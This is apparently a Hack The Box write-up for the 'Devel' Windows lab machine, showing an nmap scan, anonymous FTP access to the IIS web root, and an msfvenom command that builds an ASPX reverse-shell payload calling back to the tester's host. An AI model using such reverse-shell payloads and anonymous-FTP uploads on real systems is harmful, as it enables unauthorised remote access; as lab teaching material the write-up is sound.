 ```yaml
---
layout: post
title: Devel(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.5
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.5
  
<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-18 15:47 EST
<br>Nmap scan report for 10.10.10.5
<br>Host is up (0.22s latency).
<br>Not shown: 998 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">21/tcp</font> open  ftp     Microsoft ftpd
<br>| ftp-anon: <font color="53E100">Anonymous FTP login allowed</font> (FTP code 230)
<br>| 03-18-17  01:06AM                  aspnet_client
<br>| 03-17-17  04:37PM                  689 iisstart.htm
<br>|_03-17-17  04:37PM               184946 welcome.png
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 7.5</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: <font color="53E100">Microsoft-IIS/7.5</font>
<br>|_http-title: IIS7
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Embedded Standard 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 21/tcp)
<br>HOP RTT       ADDRESS
<br>1   283.76 ms 10.10.14.1
<br>2   283.90 ms 10.10.10.5

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 55.06 seconds</p>
</div>
</font>

Anonymous login in FTP is allowed, which means we can loggin to the FTP server with {_**anonymous**_} as a username and password.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># ftp 10.10.10.5
<br>Connected to 10.10.10.5.
<br>220 Microsoft FTP Service
<br>Name (10.10.10.5:root): anonymous
<br>331 Anonymous access allowed, send identity (e-mail name) as password.
<br>Password:
<br>230 User logged in.
<br>Remote system type is Windows_NT.
<br><font color="BB69EC">ftp</font>> ls
<br>200 PORT command successful.
<br>125 Data connection already open; Transfer starting.
<br>03-18-17  01:06AM                  aspnet_client
<br>03-17-17  04:37PM                  689 iisstart.htm
<br>03-17-17  04:37PM               184946 welcome.png
<br>226 Transfer complete.
<br><font color="BB69EC">ftp</font>></p> 
</div>
</font>
Looks like we got the access to the Web-Directory of the server using FTP, So now we will generate our payload using _**msfvenom**_ , As the target server is using IIS 7 so we will need to generate the payload with the extension of (_**.aspx**_).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4455 -b "\x00" -f aspx > teck.aspx
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>Found 10 compatible encoders
<br>Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
<br>x86/shikata_ga_nai succeeded with size 351 (iteration=0)
<br>x86/shikata_ga_nai chosen with final size 351
<br>Payload size: 351 bytes
<br>Final size of aspx file: 2870 bytes</p>
</div>
</font>

